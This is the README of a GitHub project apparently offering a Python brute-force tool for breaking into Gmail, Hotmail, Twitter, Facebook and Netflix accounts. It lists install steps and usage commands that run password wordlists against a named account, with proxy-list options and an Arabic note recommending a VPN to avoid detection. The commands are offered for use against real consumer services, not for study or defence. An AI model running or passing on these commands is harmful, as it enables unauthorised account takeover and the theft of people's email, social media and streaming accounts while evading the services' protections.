 # Brute_Force
![alt text](https://1.bp.blogspot.com/-oPEVZN0ymsc/XS59nlfrrgI/AAAAAAAAPmI/5TsU1GjCzsE32ognWuV1xI-5jUvLjCkdgCLcBGAs/s1600/Brute_Force_1.png)
![alt text](https://1.bp.blogspot.com/-SIeGPGxLUWQ/XS59nkXfYEI/AAAAAAAAPmM/P0-rKgkEjm0iFTrhpwhxBAV7vAKAo0KPQCLcBGAs/s1600/Brute_Force_2.png)
[![Python 3.7](https://img.shields.io/badge/Python-3.7-blue.svg)](http://www.python.org/download/)
[![GPL](https://img.shields.io/badge/GPL-V3.0-red.svg)](https://www.gnu.org/licenses/gpl-3.0.html)

## install :
```bash
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize

pip3 install cookielib
```


# Usage:

## BruteForce Gmail Attack
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


## BruteForce Hotmail Attack
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


## BruteForce Twitter Attack

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt

```
## BruteForce Facebook Attack

```bash
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
```
## BruteForce Netflix Attack

```bash
يفضل تشغيل VPN
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt


وترقبووو المزيد 
```



